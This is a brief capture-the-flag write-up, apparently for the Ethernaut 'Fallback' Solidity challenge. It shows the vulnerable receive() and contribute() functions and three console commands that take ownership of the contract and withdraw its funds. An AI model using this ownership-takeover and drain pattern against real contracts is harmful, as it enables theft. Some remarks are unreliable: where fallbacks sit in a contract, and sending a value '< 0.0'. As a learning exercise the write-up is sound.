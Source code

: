 ## Fallback memes

In a nutshell, solidity will always require some sort of fallback method to be able to process any non-standard transaction sent to the contract. 
This includes any sort of transaction with no data, no matching parameters and so and forth. As of current state, the default fallback method is
the last one in the contract. It has to be external and payable.

In our meme of a contract, we're provided with the following fallback method:


```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

Little needs to be said, we need to contribute once and then send a bogus transaction with < 0.0 value. However lets have a peek at the contribute
function:

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
}
```
Wow. So hard. We need to send sub 0.001. Wowzer. Here are the commands:

```javascript
contract.contribute({to: instance, from: player, value: toWei("0.0005", "ether")})
sendTransaction({from: player, to: contract, value: toWei("0.0005", "ether")})
contract.withdraw()
```

Tada... how anticlimactic.
